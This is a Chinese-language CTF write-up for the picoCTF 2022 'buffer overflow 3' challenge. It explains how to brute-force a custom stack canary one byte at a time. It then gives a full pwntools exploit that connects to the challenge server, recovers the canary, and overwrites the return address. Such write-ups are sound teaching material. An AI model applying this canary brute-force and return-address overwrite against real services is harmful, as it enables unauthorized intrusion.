 ```yaml
---
layout: post
title: "picoCTF2022 buffer overflow 3 wp"
date:   2022-3-21
tags: [ctf_wp]
comments: true
author: wsxk
---
```


[题目附件](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-21-picoCTF2022_PWN_buffer_overflow3/vuln)

这道题其实不难，但是当时做的时候被挡住了。

这个故事告诉我们pwn是学无止境的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-21-picoCTF2022_PWN_buffer_overflow3/1.png)

可以看到作者自定义了一个 canary

一开始我是不会做的，看到了提示，说有比较高效的方法可以爆破出canary的值

想了半天，如果要爆破canary，就是4字节的大整数，爆破就要爆半天了

后来仔细看题目

它一开始让我们输入 输入的字符串长度（buf的长度是64，人造canary就在其下面的位置）

我们可以输入65字节，然后输入64个'a'+一个字节的值（设为x），

如果输出stack smashing，说明x和canary的最低字节不相等

然而我们最多测试256次就能得到canary的最低字节

接下来我们输入66字节，输入64个'a'+得到的低字节canary+ 下一个字节的猜测

因此，实际上我们最多只要测256*4 = 1024次就可以得到完整的canary值


最后附上最后的exp

    from pwn import *

    #context(log_level='debug')
    canary = b''



    for i in range(4):
        for j in range(256):
            character = j
            #io = process('./vuln')
            io = remote('saturn.picoctf.net',49673)
            io.recvuntil("How Many Bytes will You Write Into the Buffer?")
            io.sendline(str(64+i+1))
            payload = b'w'*(64) + canary+bytes(chr(character).encode())
            io.recvuntil("Input>")
            io.sendline(payload)
            hint= io.recvline() 
            io.close()
            #print(b'hint: '+hint)
            #print(b"j:"+bytes(j))
            if b"Now Where's the Flag" in hint:
                canary += bytes(chr(character).encode())
                break

    print(canary)

    #canary = u32(canary)
    #io = process('./vuln')
    io = remote('saturn.picoctf.net',49673)
    io.recvuntil("How Many Bytes will You Write Into the Buffer?")
    io.sendline(str(100))
    payload = b'w'*(64) + canary+b'a'*16+p32(0x8049336)
    io.recvuntil("Input>")
    #gdb.attach(io)
    io.sendline(payload)
    io.interactive()